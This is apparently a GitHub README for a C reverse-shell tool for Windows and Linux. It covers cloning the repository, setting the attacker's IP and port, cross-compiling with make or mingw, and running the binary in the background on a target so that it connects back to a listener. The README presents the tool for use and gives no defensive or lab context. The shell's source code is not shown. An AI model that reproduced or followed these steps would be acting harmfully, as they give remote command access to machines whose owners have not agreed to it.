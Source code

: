 # c-reverse-shell

## Info

A reverse shell for Windows and Linux written in C.

Features:
- Works on Linux and Windows.
- Just one `.c` file.
- Runs in the background (on both, Linux and Windows).
- You can choose between waiting for the client (if it's no listening) or not.
- Compile with just one command (see at the bottom of the `README.md`), there is also a `Makefile`.

## Dependencies

For Windows you will need `mingw-w64` compiler (the `.exe` binary is compiled in linux):
```sh
sudo apt install gcc-mingw-w64
```

## How to use

1. Clone repo:
```sh
git clone https://github.com/izenynn/c-reverse-shell.git
```

2. Change the `CLIENT_IP` and `CLIENT_PORT` in the file `reverse-shell.c` (lines 21 and 22):
```diff
 /* ================================================== */
 /* |      CHANGE THIS TO YOUR IP AND YOUR PORT      | */
 /* ================================================== */
 #if !defined(CLIENT_IP) || !defined(CLIENT_PORT)
-# define CLIENT_IP "0.0.0.0"
-# define CLIENT_PORT (int)0
+# define CLIENT_IP "XXX.XXX.XXX.XXX"
+# define CLIENT_PORT (int)XXXX
 #endif
 /* ================================================== */
```


3. Compile for Linux and Windows with `make` (equivalent to `make all`):
```sh
make
```

4. And ✨ magic ✨ compile the program in your target, or just send the binary, and execute it, make sure your client is listening 😊.

Additionally you can compile with `WAIT_FOR_CLIENT` true, this will make the program loop until the connection to the client is established, instead of returning an error in the connection:
```sh
make WAIT_FOR_CLIENT=TRUE
```
*NOTE: this doen't work on windows, not sure why, but I'm sleepy, so maybe I fix it another day (or pull request if you fix it please 😊).*

Other `Makefile` rules:
- `make all`
- `make linux`
- `make windows`
- `make re`
-
- `make all WAIT_FOR_CLIENT=TRUE`
- `make linux WAIT_FOR_CLIENT=TRUE`
- `make windows WAIT_FOR_CLIENT=TRUE`
- `make re WAIT_FOR_CLIENT=TRUE`
-
- `make clean`

In case you don't have the `Makefile`, just copy the `reverse-shell.c` file and compile it with the following command:
- Linux
```sh
gcc -std=c99 -o rsh.out reverse-shell.c -D LINUX
```
```sh
gcc -std=c99 -o rsh.out reverse-shell.c -D LINUX -D WAIT_FOR_CLIENT
```
- Windows:
```sh
i686-w64-mingw32-gcc-win32 -std=c99 -o rsh.exe reverse-shell.c -D WIN32 -lws2_32
```
```sh
i686-w64-mingw32-gcc-win32 -std=c99 -o rsh.exe reverse-shell.c -D WIN32 -lws2_32 -D WAIT_FOR_CLIENT
```

##
[![forthebadge](https://forthebadge.com/images/badges/made-with-c.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/thats-how-they-get-you.svg)](https://forthebadge.com)
